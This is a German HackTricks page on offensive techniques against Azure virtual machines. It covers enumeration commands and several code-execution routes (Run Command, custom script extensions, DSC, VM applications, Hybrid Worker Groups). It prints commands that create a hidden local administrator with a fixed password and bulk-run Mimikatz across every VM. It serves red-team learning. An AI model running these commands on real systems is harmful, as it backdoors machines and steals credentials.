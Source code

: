 # Az - Virtuelle Maschinen & Netzwerk

<details>

<summary><strong>Lernen Sie das Hacken von AWS von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositories einreichen.

</details>

## Grundlegende Informationen

[Aus den Dokumenten:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azure Virtual Machines sind eine von mehreren Arten von [auf Abruf verfügbaren, skalierbaren Rechenressourcen](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree), die Azure anbietet. In der Regel wählen Sie eine virtuelle Maschine, wenn Sie mehr Kontrolle über die Rechenumgebung benötigen als die anderen Optionen bieten. Dieser Artikel gibt Ihnen Informationen darüber, was Sie beachten sollten, bevor Sie eine virtuelle Maschine erstellen, wie Sie sie erstellen und wie Sie sie verwalten.

## Azure Netzwerkinformationen

Azure-Netzwerke enthalten **verschiedene Entitäten und Möglichkeiten zu deren Konfiguration.** Sie finden eine kurze **Beschreibung,** **Beispiele** und **Auflistungsbefehle** der verschiedenen Azure-Netzwerkentitäten in:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** bietet eine sichere, vollständig verwaltete RDP (Remote Desktop Protocol) und SSH (Secure Shell) Zugriffslösung über SSL über das Azure-Portal. Es ist in ein Azure Virtual Network integriert, was RDP- und SSH-Konnektivität zu VMs über private IPs ermöglicht und die Notwendigkeit öffentlicher IPs vermeidet. Dies macht es zu einer sichereren und bequemeren Alternative zu traditionellen Methoden, die öffentliche IP-Zuweisungen und NSG-Regelkonfigurationen für den VM-Zugriff erfordern. Entwickler und IT-Personal können sicher auf VMs aus dem Azure-Portal mit ihren Webbrowsern zugreifen und den Prozess für Entwicklungs- und Testumgebungen optimieren.

Um alle Azure Bastion-Hosts in Ihrem Abonnement aufzulisten, können Sie den folgenden Befehl verwenden:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
## VM Auflistung
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Befehle in einer VM ausführen**

### **AAD-Anmeldung in einer VM**

Es ist möglich, den Zugriff für Benutzer zu erlauben, die über AzureAD authentifiziert sind. Wenn Sie beispielsweise versuchen, auf eine **Linux-VM** zuzugreifen: `ssh benutzername@azure-corp.com@1.1.1.1` (es ist wichtig, die **E-Mail-Adresse** mit dem AzureCorp zu verwenden, die beim Anmelden verwendet wurde), könnten Sie einen Fehler erhalten wie:
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Einfach **folgen Sie diesen Anweisungen**, gehen Sie zu [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) und geben Sie den Code ein, verwenden Sie die E-Mail und das Passwort als Anmeldeinformationen und Sie können sich über SSH verbinden (wenn dieser Benutzer über ausreichende Berechtigungen verfügt: Rolle `Virtual Machine Administrator Login` oder `Virtual Machine User Login`).

### **Befehl ausführen**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Ausführen der benutzerdefinierten Skripterweiterung**

Azure Virtual Machine (VM)-Erweiterungen sind **kleine Anwendungen**, die nach der Bereitstellung Konfigurations- und Automatisierungsaufgaben auf **Azure VMs** bereitstellen. Wenn beispielsweise eine virtuelle Maschine eine Softwareinstallation, Virenschutz oder die Möglichkeit zum Ausführen eines Skripts darin erfordert, können Sie eine VM-Erweiterung verwenden.

Daher können Sie bei Zugriff auf das Schreiben beliebigen Code ausführen:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### Gewünschter Konfigurationszustand (DSC)

Der gewünschte Konfigurationszustand (DSC) ist ein PowerShell-Tool ähnlich wie Ansible, das zur Einrichtung eines Hosts durch Code verwendet wird. DSC integriert sich mit Azure und ermöglicht das Hochladen spezifischer Konfigurationsdateien. Diese Dateien müssen einer strengen Syntax entsprechen. Beachtenswert ist, dass die DSC-Erweiterung in Azure Befehle aus Dateien ausführen kann, die bestimmte Formatierungskriterien erfüllen, auch wenn die Syntax nicht den DSC-Standards entspricht, wie in der bereitgestellten Abbildung gezeigt.

Die Ausführung dieser Befehle wird durch die Funktion [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) in Az PowerShell erleichtert. Die Anforderungen umfassen eine **.PS1**-Datei mit einer definierten Funktion, die in eine **.zip**-Datei gepackt werden muss. Auch wenn die Syntax für DSC möglicherweise nicht korrekt ist, wird der Code dennoch ausgeführt. Die Erweiterung markiert jedoch den Ausführungsstatus als "Fehler", und es wird keine Ausgabe des Befehls angezeigt, da der Status durch die Fehlermeldung überschrieben wird.

### VM-Anwendungsdefinitionen

VM-Anwendungsdefinitionen ermöglichen die wiederholbare Bereitstellung versionierter Anwendungen auf einer Azure-VM. Diese Ressource unterstützt die Bereitstellung und Aktualisierung von Anwendungen auf VMs. Zur Einrichtung sind mehrere Schritte erforderlich, die Befehle wie **`New-AzGalleryApplication`** und **`New-AzGalleryApplicationVersion`** in Az PowerShell beinhalten.

Die Ausführung von Anwendungen oder Befehlen über diese Methode erfolgt über die **"VMAppExtension"**, die automatisch installiert wird, wenn eine Anwendung auf eine VM angewendet wird. Die Erweiterung ruft die Datei von der angegebenen URI ab und benennt sie genau wie die Anwendung ohne Erweiterung. Um die Datei korrekt auszuführen, muss das Feld "ManageActions" im REST-API-Aufruf konfiguriert werden, um die Datei mit der entsprechenden Erweiterung umzubenennen. Die Einrichtung dieser Methode wird nach Abschluss der Struktur in der bereitgestellten Abbildung ähneln.

Diese Ausführungsmethode ist jedoch relativ langsam und benötigt etwa 3-4 Minuten, um eine Anwendung oder einen Befehl auszuführen. Die Dateien im Zusammenhang mit diesem Prozess werden in spezifischen Verzeichnissen gespeichert (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` für die Anwendungskopie und `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` für den Ausführungsstatus).

Beide Techniken bieten einzigartige Möglichkeiten zur Ausführung von Befehlen und Bereitstellung von Anwendungen in Azure-Umgebungen, jeweils mit eigenen Anforderungen, Schritten und Überlegungen.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) sind eine Funktion in Azure, die es ermöglicht, Runbooks, die in einem Automatisierungskonto konfiguriert sind, auf einer Azure Virtual Machine (VM) auszuführen, die Teil der festgelegten HWG ist. Diese Ausführung wird durch eine Erweiterung auf der VM erleichtert, die den Runbook-Code auf die VM bereitstellt. Ein wesentlicher Aspekt dieses Prozesses ist, dass die tatsächlichen Anmeldeinformationen bei der Ausführung keine Rolle spielen, da der Code mit erhöhten Berechtigungen, speziell als **SYSTEM** oder root, ausgeführt wird, wie in der bereitgestellten Abbildung dargestellt.

Ein wichtiger Punkt für diejenigen, die Windows 10-VMs nutzen, ist die Notwendigkeit, die PowerShell-Version für das Runbook anzugeben. Es sollte so eingestellt sein, dass es als PowerShell-Version 5.1 anstelle von 7.1 ausgeführt wird. Diese Anforderung ergibt sich daraus, dass PowerShell 7.1 standardmäßig nicht auf diesen VMs installiert ist, was zu einem Fehler in der Skriptausführung führt, wenn Version 7.1 angegeben ist.

Diese Funktion von Azure bietet eine robuste Methode zur Automatisierung und Verwaltung von Aufgaben in hybriden Umgebungen und ermöglicht eine zentrale Verwaltung und Ausführung von Aufgaben auf Azure-VMs.


## Referenzen

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen** oder **HackTricks im PDF-Format herunterladen** möchten, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>
